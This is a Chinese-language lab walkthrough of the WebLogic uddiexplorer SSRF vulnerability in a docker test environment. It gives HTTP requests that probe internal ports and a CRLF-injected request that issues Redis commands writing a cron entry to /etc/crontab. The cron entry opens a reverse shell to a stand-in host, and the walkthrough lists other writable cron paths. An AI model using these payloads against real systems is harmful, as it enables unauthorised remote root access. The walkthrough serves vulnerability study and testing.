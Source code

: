 # Weblogic SSRF漏洞

Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件。

## 测试环境搭建

编译及启动测试环境

```
docker compose up -d
```

访问`http://your-ip:7001/uddiexplorer/`，无需登录即可查看uddiexplorer应用。

## SSRF漏洞测试

SSRF漏洞存在于`http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp`，我们在brupsuite下测试该漏洞。访问一个可以访问的IP:PORT，如`http://127.0.0.1:80`：

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

可访问的端口将会得到错误，一般是返回status code（如下图），如果访问的非http协议，则会返回`did not have a valid SOAP content-type`。

![](1.png)

修改为一个不存在的端口，将会返回`could not connect over HTTP to server`。

![](2.png)

通过错误的不同，即可探测内网状态。

## 注入HTTP头，利用Redis反弹shell

Weblogic的SSRF有一个比较大的特点，其虽然是一个“GET”请求，但是我们可以通过传入`%0a%0d`来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。

首先，通过ssrf探测内网中的redis服务器（docker环境的网段一般是172.*），发现`172.18.0.2:6379`可以连通：

![](3.png)

发送三条redis命令，将弹shell脚本写入`/etc/crontab`：

```
set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/evil/21 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

进行url编码：

```
set%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fevil%2F21%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave
```

注意，换行符是“\r\n”，也就是“%0D%0A”。

将url编码后的字符串放在ssrf的域名后面，发送：

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.19.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20%27sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fevil%2F21%200%3E%261%27%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

![](4.png)

成功反弹：

![](5.png)

最后补充一下，可进行利用的cron有如下几个地方：

 - /etc/crontab 这个是肯定的
 - /etc/cron.d/* 将任意文件写到该目录下，效果和crontab相同，格式也要和/etc/crontab相同。漏洞利用这个目录，可以做到不覆盖任何其他文件的情况进行弹shell。
 - /var/spool/cron/root centos系统下root用户的cron文件
 - /var/spool/cron/crontabs/root debian系统下root用户的cron文件
